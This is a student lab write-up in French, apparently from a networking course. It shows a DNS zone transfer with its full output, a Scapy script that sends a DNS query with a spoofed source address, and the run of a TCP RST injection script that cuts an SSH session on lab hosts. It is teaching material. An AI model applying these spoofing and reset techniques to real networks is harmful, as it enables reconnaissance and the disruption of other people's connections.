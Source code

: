 ### 1. DNS
🌞 **Requêter l'enregistrement AXFR**
-> permet de récupérer tous les enregistrements DNS d'un domaine donné (pas très sécurisé si c'est activé)
```
[toto@localhost ~]$ dig axfr @dns.tp3.b2 tp3.b2

; <<>> DiG 9.16.23-RH <<>> axfr @dns.tp3.b2 tp3.b2
; (1 server found)
;; global options: +cmd
tp3.b2. 86400 IN SOA dns.tp3.b2. admin.tp3.b2. 2019061800 3600 1800 604800 86400
tp3.b2. 86400 IN NS dns.tp3.b2. 
coolsite.tp3.b2. 86400 IN A 10.3.3.4 
dns.tp3.b2. 86400 IN A 10.3.3.1 
meow.tp3.b2. 86400 IN A 10.3.3.6 
prout.tp3.b2. 86400 IN A 10.3.3.5 
supersite.tp3.b2. 86400 IN A 10.3.3.3 
web.tp3.b2. 86400 IN A 10.3.3.2 
web2.tp3.b2. 86400 IN A 10.3.3.4 
web3.tp3.b2. 86400 IN A 10.3.3.5 
web4.tp3.b2. 86400 IN A 10.3.3.6 
tp3.b2. 86400 IN SOA dns.tp3.b2. admin.tp3.b2. 2019061800 3600 1800 604800 86400
```

🌞 **Spoof DNS query**
```
from scapy.all import *

answer = sr1(IP(dst="dns.tp3.b2", src="10.3.2.10")/UDP(dport=53)/DNS(rd=1,qd=DNSQR(qname="tp3.b2", qtype="AXFR")),verbose=0)

print(answer[DNS].summary()) # évidement on aura pas de réponse sur la machine attaquante
```

[DNS spoof query](dns_flood.pcapng)

### 1. TCP
🌞 **Mettre en place une attaque TCP RST**
```
[attaquant@localhost toto]# python3 rst.py
ip src >> 10.3.3.1
ip dst >> 10.3.3.2
port src >> 56100
port dst >> 22
Seq nb >> 2819881537
Ack nb >> 3424035478
[ 3029.781295 ] device enp0s3 entered promiscuous mode
[ 3029.781295 ] device enp0s3 left promiscuous mode
```

```
[toto@localhost ~]$ aclient_loop: send disconnect: Broken pipe
```

[TCP rst](tcp_rst.pcapng)
